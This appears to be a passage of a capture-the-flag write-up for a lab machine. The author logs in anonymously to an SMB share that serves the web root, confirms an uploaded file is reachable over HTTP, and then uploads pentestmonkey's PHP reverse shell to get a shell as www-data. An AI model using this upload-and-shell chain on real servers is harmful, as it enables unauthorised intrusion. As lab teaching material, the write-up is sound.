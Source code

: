 ```bash
  ..                                  D        0  Tue Sep 22 21:48:39 2020
  index.html                          N    10701  Tue Sep 22 21:48:45 2020

                7158264 blocks of size 1024. 5267640 blocks available
```

Let's upload a test file to see if our test.html is upoladed onto the server as well.

> Creating test.xt

```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# echo "hello world " >> test.txt
                                                                                                                                                                          
                                                                                                                                                                          
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# cat test.txt                                                                                                                                                   
hello world 
```

Upload file onto machine through smb anonymous connection.
```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# smbclient //192.168.56.20/share
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd html\
smb: \html\> put test.txt 
putting file test.txt as \html\test.txt (4.2 kb/s) (average 4.2 kb/s)
smb: \html\> 
```

After checking, it does look like the file exist on the server! This means we can upload a .php reverse shell!
```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# curl http://192.168.56.20/test.txt
hello world 

 ```


## Shell as www-data

Let's upload a reverse shell:
I usually use the one from this git repo : [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)	
```bash
┌──(root💀kali)-[/opt/hackmyv/connection]
└─# smbclient //192.168.56.20/share                    
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd html\
smb: \html\> put php-reverse-shell.php 
putting file php-reverse-shell.php as \html\php-reverse-shell.php (2682.5 kb/s) (average 2682.6 kb/s)
smb: \html\> 
```
